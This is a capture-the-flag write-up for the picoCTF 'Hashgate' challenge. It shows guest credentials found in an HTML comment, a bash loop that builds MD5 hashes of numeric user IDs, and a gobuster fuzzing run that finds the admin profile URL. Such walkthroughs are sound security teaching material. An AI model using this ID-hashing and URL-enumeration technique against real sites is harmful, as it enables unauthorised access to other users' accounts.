

# Hashgate
Number of Points: 100

## Description
You have gotten access to an organisation's portal. Submit your email and password, and it redirects you to your profile. But be careful: just because access to the admin isn’t directly exposed doesn’t mean it’s secure. Maybe someone forgot that obscurity isn’t security... Can you find your way into the admin’s profile for this organisation and capture the flag? The website is running here.

## Hints
* Notice anything about how the ID is being checked? It’s not plain text… maybe a one-way function is involved.
* There are about 20 employees in this organisation.

## Analysis & Solution
Let's navigate to the site.

Inspecting the "head" tag of the html file of the login page,
we have
```
<!-- Email: guest@picoctf.org Password: guest -->
```
Using this to sign in, we are met with a different page,
```
# http://crystal-peak.picoctf.net:60832/profile/user/e93028bdc1aacdfb3687181f2031765d
Access level: Guest (ID: 3000). Insufficient privileges to view classified data. Only top-tier users can access the flag.
```
The string "e93028bdc1aacdfb3687181f2031765d" seem like output of a hash function.

In fact it turns to be the MD5 hash of "3000".
We could now attempt to brute force the list of users.

I created a list of MD5 hashes from 1000 to 9999.
```bash
for idnum in $(seq 1000 9999); do echo -n $idnum | md5sum | cut -d ' ' -f1 >> hashlist.txt; done
```
Then I used gobuster to fuzz for each page.
(I am removing lines containing "Length=15" as those were generic pages. It turns out this server does not output status code apart from 200.)
```bash
# gobuster fuzz -u http://crystal-peak.picoctf.net:60832/profile/user/FUZZ -w hashlist.txt | grep -v 'Length=15'
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://crystal-peak.picoctf.net:60832/profile/user/FUZZ
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     hashlist.txt
[+] User Agent:   gobuster/3.8.2
[+] Timeout:      10s
===============================================================
Starting gobuster in fuzzing mode
===============================================================
[Status=200] [Length=121] [Word=e93028bdc1aacdfb3687181f2031765d] http://crystal-peak.picoctf.net:60832/profile/user/e93028bdc1aacdfb3687181f2031765d
[Status=200] [Length=63] [Word=5a01f0597ac4bdf35c24846734ee9a76] http://crystal-peak.picoctf.net:60832/profile/user/5a01f0597ac4bdf35c24846734ee9a76
```
I found two urls of interest.
The first one was the one I already I found.
The second one actually corresponds to the admin ID, and by navigating to that page, you are given a flag.
